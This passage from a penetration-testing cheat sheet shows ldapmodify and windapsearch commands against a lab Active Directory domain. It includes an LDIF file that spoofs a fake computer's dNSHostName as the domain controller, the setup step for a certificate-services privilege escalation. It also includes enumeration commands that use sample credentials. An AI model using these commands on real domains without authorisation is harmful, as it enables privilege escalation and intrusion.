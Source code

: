 #### ldapmodify

An example of removing SPNs and changing `dNSHostName` (see [dNSHostName Spoofing](/pentest/infrastructure/ad/ad-cs-abuse/dnshostname-spoofing.md)):

```
$ ldapmodify -H ldap://DC01.megacorp.local -Y GSSAPI -f spoof.ldiff
$ ldapsearch -H ldap://DC01.megacorp.local -Y GSSAPI -b "DC=megacorp,DC=local" '(&(objectCategory=computer)(sAMAccountName=fakemachine$))' servicePrincipalName dNSHostName
```

{% code title="spoof.ldiff" %}
```diff
dn: CN=FAKEMACHINE,CN=Computer,DC=megacorp,DC=local
changetype: modify
delete: servicePrincipalName
-
replace: dNSHostName
dNSHostName: dc01.megacorp.local
```
{% endcode %}



### windapsearch

* [https://github.com/ropnop/windapsearch](https://github.com/ropnop/windapsearch)
* [https://github.com/snovvcrash/windapsearch](https://github.com/snovvcrash/windapsearch)

Enumerate domain function functional level with LDAP anonymous bind:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u '' --functionality
```

Enumerate users in Protected Users group which are also trusted for unconstrained delegation:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -m 'Protected Users' --attrs trustedForDelegation
```

Find what OU is the user John Doe part of:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U --full | grep distinguishedName | grep j.doe
```

Query LDAP for all domain computer accounts (+ try to resolve their IPs with `-r` flag) and save results into a csv file:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -C -r | tee ~/ws/enum/all-computers.csv
```



### go-windapsearch
